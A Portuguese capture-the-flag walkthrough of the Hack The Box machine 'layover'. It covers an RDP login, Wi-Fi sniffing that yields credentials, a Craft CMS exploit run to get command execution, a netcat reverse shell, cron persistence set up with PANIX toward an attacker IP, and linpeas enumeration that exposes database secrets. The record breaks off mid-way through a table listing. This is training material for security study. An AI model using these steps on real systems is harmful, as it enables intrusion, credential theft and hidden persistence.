# HTB-layover

Primeira ação na máquina como sempre foi startar um portscan.

```bash
~ 〉 rustscan -a 10.129.62.206 -- -sV -sC
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.
Open 10.129.62.206:22
Open 10.129.62.206:3389
```

como resultado temos o ssh e rdp open, como a máquina já nos liberou as credenciais de acesso vamos tentar usar elas no rdp

```bash
~ 〉 xfreerdp /v:10.129.62.206 /u:contractor /p:Contractor2026!
```



analisando o nosso acesso com rdp, decidi abrir o browser onde carregou 2 páginas



ao tentar ir pra [http://portal.international.htb/miles/](http://portal.international.htb/miles/) nossa conexão falha, então novamente analisando a máquina vi as redes wi fi disponíveis pra me conectar por ela





com isso finalmente temos acesso ao sub portal



Agora vamos começar a fazer um reconhecimento por cima desse novo cenário. primeiro tentei me autenticar na página miles, e notei que qualquer credencial que eu coloque resulta em um acesso






decidi então depois de olhar manualmente cada diretório, partir pra um recon mais ativo. subi uma shell na máquina usando o penelope e movi o binário do feroxbuster pra ela para usar nesse sub



```bash
(Penelope)─(Session [1])> upload /usr/bin/feroxbuster
(Penelope)─(Session [1])> upload /usr/share/feroxbuster/raft-medium-directories.txt

```

Rodando o feroxbuster conseguimos um diretório que faz redirect pra /admin/login

```bash
302      GET        0l        0w        0c http://portal.international.htb/admin => http://portal.international.htb/admin/login
```

aparentemente temos um craft cms rodando aqui,



a partir daqui tentei fazer guessing de exploit pro cms mas vi que seria perda de tempo, então analisando as possibilidades vi que tinha nativamente algumas ferramentas de análise de tráfego presente no rdp, como o wireshark, com isso decidi então sniffar a rede que estou logado e verificar o que consigo interceptar

primeiro mudei minha interface pra modo monitor

```bash
ip link set wlan3 down
iw dev wlan3 set type monitor
ip link set wlan3 up
```




```bash
user:jenny
pass:Fl1ghtDeck2026!
```

com essas credenciais capturadas loguei no painel do miles mas não tinha nada demais então fui pro prato principal que no caso seria o painel de admin



com as mesmas credenciais consegui logar nele, e como é de padrão do htb estava demorado pra ter uma coleta de versão e uso de exploit



sabendo que a aplicação usa o craft cms 5.9.8, joguei no Google pra consultar algum exploit pra essa versão



indo atrás achei o exploit e movi ele pra máquina

```bash
(Penelope)─(Session [1])> upload CVE-2026-31857/
[•] ⇥ Uploading to /home/contractor
 ⤷ [########################################] 100% (132.0 KBytes/132.0 KBytes) | Elapsed 0:00:00
[+] Uploaded /home/contractor/CVE-2026-31857

```



```bash
root@airside-ws01:/home/contractor/CVE-2026-31857# python3 poc.py http://portal.international.htb jenny
Password: 
[+] Session established!
cmd> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
cmd> pwd
/var/www/portal/web
cmd> 
```

redirecionei a shell pro meu penelope pra ter maior conforto durante o uso já que sessões rdp são extremamente lagadas e travadas

```bash
contractor@airside-ws01:~$ nc -lnvp 6767
Listening on 0.0.0.0 6767
Connection received on 10.13.37.10 60358
bash: cannot set terminal process group (292): Inappropriate ioctl for device
bash: no job control in this shell
www-data@portal:~/portal/web$
```

Como eu fiz todo um malabarismo pra ter um acesso mais confortável não quis arriscar minha sessão morrer então subi uma persistência no cron usando o panix pra me manter ativo.

```bash
www-data@portal:/tmp$ ./panix.sh
./panix.sh

 __
|__)  /\  |\ | | \_/
|    /~~\ | \| | / \

@RFGroenewoud

[!] Warning: More features are available when running as root.

Low Privileged User Options:

  --at                   At job persistence
  --authorized-keys      Add public key to authorized keys
  --bind-shell           Execute backgrounded bind shell (supports multiple LOLBins)
  --cron                 Cron job persistence
  --git                  Git persistence
  --malicious-container  Docker container with host escape (requires docker group permissions)
  --reverse-shell        Reverse shell persistence (supports multiple LOLBins)
  --shell-profile        Shell profile persistence
  --ssh-key              SSH key persistence
  --systemd              Systemd service persistence
  --web-shell            Web shell persistence (PHP/Python)
  --xdg                  XDG autostart persistence
  --revert               Revert most changes made by PANIX' default options
  --mitre-matrix         Display the MITRE ATT&CK Matrix for PANIX
  --quiet (-q)           Quiet mode (no banner)
  
  www-data@portal:/tmp$ ./panix.sh --cron --ip 10.13.37.182 --port 6767 --default
<x.sh --cron --ip 10.13.37.182 --port 6767 --default
[+] Cron persistence established.

```

comecei a analisar a máquina rodando o linpeas e a primeira coisa que me chama a atenção são essas credenciais no env

```bash

╔══════════╣ Analyzing Env Files (limit 70)
-rw-r--r-- 1 www-data www-data 753 Aug 10 18:37 /var/www/portal/.env
CRAFT_APP_ID=CraftCMS--41606de1-cf7a-4fc5-8b1e-6f746d801adf
CRAFT_ENVIRONMENT=production
CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr
CRAFT_DEV_MODE=false
CRAFT_ALLOW_ADMIN_CHANGES=false
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craft
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftDB_pw_2026
CRAFT_DB_TABLE_PREFIX=
PRIMARY_SITE_URL=http://portal.international.htb/
CRAFT_ENABLE_TWIG_SANDBOX=true
```

e analisando as portas abertas realmente temos um mysql rodando

```bash
www-data@portal:~$ ss -tlnp
ss -tlnp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      4096         0.0.0.0:22        0.0.0.0:*
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=348,fd=5),("nginx",pid=346,fd=5),("nginx",pid=345,fd=5),("nginx",pid=344,fd=5))
<u>LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*</u>
LISTEN 0      1            0.0.0.0:6767      0.0.0.0:*    users:(("nc",pid=1315,fd=3))
LISTEN 0      4096       127.0.0.1:631       0.0.0.0:*
LISTEN 0      4096      127.0.0.54:53        0.0.0.0:*
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*
LISTEN 0      4096            [::]:22           [::]:*
LISTEN 0      511             [::]:80           [::]:*    users:(("nginx",pid=348,fd=6),("nginx",pid=346,fd=6),("nginx",pid=345,fd=6),("nginx",pid=344,fd=6))
LISTEN 0      4096           [::1]:631          [::]:*
```

então loguei nele e comecei a enumerar as databases

```bash
mysql -u craftuser -p -h 127.0.0.1 -P 3306
Enter password: CraftDB_pw_2026

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 256
Server version: 10.11.14-MariaDB-0ubuntu0.24.04.1 Ubuntu 24.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| craft              |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

```

```bash
MariaDB [craft]> SHOW TABLES;
SHOW TABLES;
+----------------------------+
| Tables_in_craft            |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
| assets_sites               |
| authenticator              |
| bulkopevents               |
| categories                 |
| categorygroups             |
| categorygroups_sites       |
| changedattributes          |
| changedfields              |
| contentblocks              |
| craftidtokens              |
| deprecationerrors          |
| drafts                     |
| elementactivity            |
| elements                   |
| elements_bulkops           |
| elements_owners            |
| elements_sites             |
| entries                    |
| entries_authors            |
| entrytypes                 |
| fieldlayouts               |
| fields                     |
| globalsets                 |
| gqlschemas                 |
| gqltokens                  |
| htbairways_settings        |
| imagetransformindex        |
| imagetransforms            |
| info                       |
| migrations                 |
| miles_members              |
| plugins                    |
| projectconfig              |
| queue                      |
| recoverycodes              |
| relations                  |
| resourcepaths              |
| revisions                  |
| searchindex                |
| searchindexqueue           |
